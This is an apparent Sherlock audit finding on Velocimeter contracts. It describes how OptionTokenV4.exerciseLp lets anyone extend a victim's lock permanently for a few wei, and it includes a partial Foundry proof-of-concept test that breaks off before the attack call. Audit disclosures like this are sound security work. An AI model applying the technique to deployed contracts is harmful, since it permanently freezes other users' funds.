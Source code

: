 # Issue H-1: `DepositWithLock` done via `OptionToken` can be abused to permanently lock a user position 

Source: https://github.com/sherlock-audit/2024-06-velocimeter-judging/issues/20 

## Found by 
Aymen0909, GalloDaSballo, KupiaSec, McToady, Nyx, bin2chen, cawfree, cryptic, cu5t0mPe0, dandan, eeyore, hulkvision, jovi, talfao, tvdung94
## Summary

`OptionTokenV4.exerciseLp` allows depositing to other people locks and extend it permanently at close to zero cost

## Vulnerability Detail

`GaugeV4.depositWithLock`  has a check to prevent someone else from re-locking a user position

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/GaugeV4.sol#L443-L445
```

This check can be sidestepped by exercising a position on behalf of a victim via the `OptionTokenV4`

By doing this, any user can have their position permanently frozen at close to no cost to the attacker

The cost of the attack is 1 wei for each tokens involved (necessary to not revert on `addLiquidity`, meaning that the cost is extremely low

## Impact

Victims will be unable to unlock their unlock their positions at close to no cost to the attacker

## Code Snippet

The following POC demonstrates the attack
The attacker spends 3 weis of oToken as well as dust amounts of DAI and Flow to increase the lock duration of the victim

```solidity
function testExerciseLp_attack() public { 
        vm.startPrank(address(owner)); 
        FLOW.approve(address(oFlowV4), TOKEN_1);
        // mint Option token to owner 2
        oFlowV4.mint(address(owner2), TOKEN_1 - 3);

        address attacker = address(0xb4d);
        FLOW.mint(attacker, 3);
        DAI.mint(attacker, 3);
        oFlowV4.mint(address(attacker), 3);

        /// Not relevant 
        washTrades();
        vm.stopPrank();
        uint256 flowBalanceBefore = FLOW.balanceOf(address(owner2));
        uint256 oFlowV4BalanceBefore = oFlowV4.balanceOf(address(owner2));
        uint256 daiBalanceBefore = DAI.balanceOf(address(owner2));
        uint256 treasuryDaiBalanceBefore = DAI.balanceOf(address(owner));
        uint256 rewardGaugeDaiBalanceBefore = DAI.balanceOf(address(gauge));

```